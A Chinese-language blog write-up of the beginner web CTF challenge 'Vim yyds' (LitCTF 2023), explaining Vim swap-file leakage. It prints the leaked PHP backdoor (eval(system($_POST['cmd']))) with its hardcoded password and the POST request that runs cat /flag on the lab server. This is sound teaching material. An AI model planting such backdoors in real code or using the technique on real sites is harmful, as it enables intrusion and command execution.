 ```yaml
---
title: NSSCTF入门题单[LitCTF 2023]WriteUP-NSSCTF-3866
date: 2024-11-26
tags:
 - CTF
 - NSSCTF
 - WriteUP
categories:
 - 随笔 Essay 
isShowComments: true
publish: true







---
```


<Boxx/>

[LitCTF 2023]这套题是Web方向入门题单，这是我的第18题

[[toc]]

- 题单【[传送门](https://www.nssctf.cn/problem/3861)】
- 主办方WriteUP【[传送门](https://dqgom7v7dl.feishu.cn/docx/WdHvd735koqwJxxulA2cv4K4nKf)】
- 主办方WriteUP视频【[传送门](https://www.bilibili.com/video/BV1sm4y187EK)】

| 题目编号 | 题目名称 | 题目方向 | 难度 |
| -------- | -------- | -------- | ---- |
| 3866     | Vim yyds | Web      | 1    |

<!-- more -->

# 题目18：Vim yyds

### 题目描述：漏…漏了！

### 考点1：信息泄露

### 考点2：Linux常用命令

进入页面后，发现只有一个VIm的图标，结合题目描述，可以大致想到是Vim缓存文件泄露

<img src="/img/essay/image-20241126190916569.png" alt="image-20241126190916569" style="zoom:50%;" />

> Vim的备份文件后缀/Vim缓存文件后缀
>
> 使用 vim 时会创建临时缓存文件，关闭vim时缓存文件会被删除。如果vim 异常 退出，这时候未处理缓存文件，就会导致可以通过缓存文件查看文件内容。 第一次意外退出产生的备份文件名为：.filename.swp 第二次意外退出产生的备份文件名为：.filename.swo 第三次意外退出产生的备份文件名为：.filename.swn

由此我们可以访问.index.php.swp，这个文件就是vim编辑后的缓存文件，在下载过后（有可能杀毒软件会弹窗），我们用010Editor或者其他编辑器打开，找到关键代码

```php
$password = "Give_Me_Your_Flag";
$_POST['password'] === base64_encode($password)
eval(system($_POST['cmd']));
```

这段代码的意思是，我们用POST方法请求，并且传入一个名为“password”的参数，参数值必须为用base64加密过后的"Give_Me_Your_Flag"，这样才能触发后边的木马，也就是传入一个名为cmd的参数，这个参数值即为命令。

我们打开HackBar，像该网站发送请求

```
#地址
http://node4.anna.nssctf.cn:28004/
#参数
password=R2l2ZV9NZV9Zb3VyX0ZsYWc=&cmd=cat /flag
```

![image-20241126193237784](/img/essay/image-20241126193237784.png)